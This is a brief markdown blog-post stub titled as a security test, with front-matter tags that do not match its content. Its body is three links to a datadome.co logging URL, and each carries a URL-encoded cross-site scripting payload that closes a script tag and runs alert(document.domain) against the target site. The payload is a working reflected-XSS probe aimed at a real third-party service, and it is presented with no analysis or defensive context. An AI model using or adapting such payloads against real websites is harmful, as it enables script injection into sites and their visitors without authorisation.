 ```yaml
---
layout: post
title: A simple security test, will be deleted
categories: [machine learning, python]
tags: [python, recommender system, sparse matrix]
description: In this article ... we make a simple test
comments: true
---
```


This is a simple test, you know:
<a href="https://datadome.co/log?type=%22%3C/script%3E%3Cscript%3Ealert(document.domain%20+%20%27uniquestring123356%27);%3C/script%3E%3Cscript%3E">Test 1</a>
<a href="https://datadome.co/log?type=%22%3C/script%3E%3Cscript%3Ealert(document.domain%20+%20%27uniquestring123356%27);%3C/script%3E%3Cscript%3E">Test 2</a>
<a href="https://datadome.co/log?type=%22%3C/script%3E%3Cscript%3Ealert(document.domain%20+%20%27uniquestring123356%27);%3C/script%3E%3Cscript%3E">Test 3</a>


